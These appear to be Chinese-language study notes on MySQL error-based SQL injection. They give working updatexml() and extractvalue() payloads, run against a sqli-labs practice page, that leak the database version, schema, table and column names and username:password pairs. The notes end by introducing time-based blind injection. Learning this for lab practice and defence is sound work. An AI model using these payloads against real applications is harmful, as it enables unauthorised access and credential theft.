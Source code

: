 

```mysql
updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)

updatexml()函数与extractvalue()类似，是更新xml文档的函数。

语法updatexml(目标xml文档，xml路径，更新的内容)

select username from security.user where id=1 and (updatexml(‘anything’,’/xx/xx’,’anything’))

通过查询@@version,返回版本。然后CONCAT将其字符串化。因为UPDATEXML第二个参数需要Xpath格式的字符串,所以不符合要求，然后回显报错。

错误大概会是：
ERROR 1105 (HY000): XPATH syntax error: ’:root@localhost’   //则爆出信息
```

注意：

- updatexml是三个参数，中间参数配合concat注入，concat一三参数标识回显结果的头和尾，`0x7e`是`~`
- extractvalue两个参数，第二个参数配合concat
- **extractvalue()和updatexml()**只能回显==32位长度==的数据
- <span style="background:#bbffff;"> select，insert，update没有回显的都可以使用</span>



爆出所有表名

```mysql
http://www.anantest.com:8080/sqlilabs/Less-3/
?id=1') and updatexml(1,concat(0x23,(select group_concat(schema_name) from information_schema.schemata )),1)-

//爆表名:
or extractvalue(1, concat(0x7e, (select concat(table_name) from information_schema.tables where table_schema=database() limit 0,1)))
爆字段名:
or extractvalue(1, concat(0x7e, (select concat(column_name) from information_schema.columns where table_name='users' limit 0,1)))
爆数据:
or extractvalue(1, concat(0x7e, (select concat_ws(':', username, password) from users limit 0,1))) or ''
```





#### [ **floor**](https://www.cnblogs.com/c1047509362/p/12806297.html)





### 时间盲注

> 用工具、脚本

1. 与布尔盲注类似，但是无法通过返回信息判断对错，因为只返回true。可通过时间函数sleep，**<span style="background:#BBFFBB;">通过web页面响应时间判断注入语句是否成功</span>**
2. 用`if`和`sleep`函数判断是ture还是false
<u>正确就延迟n秒返回，错误就0s返回</u>
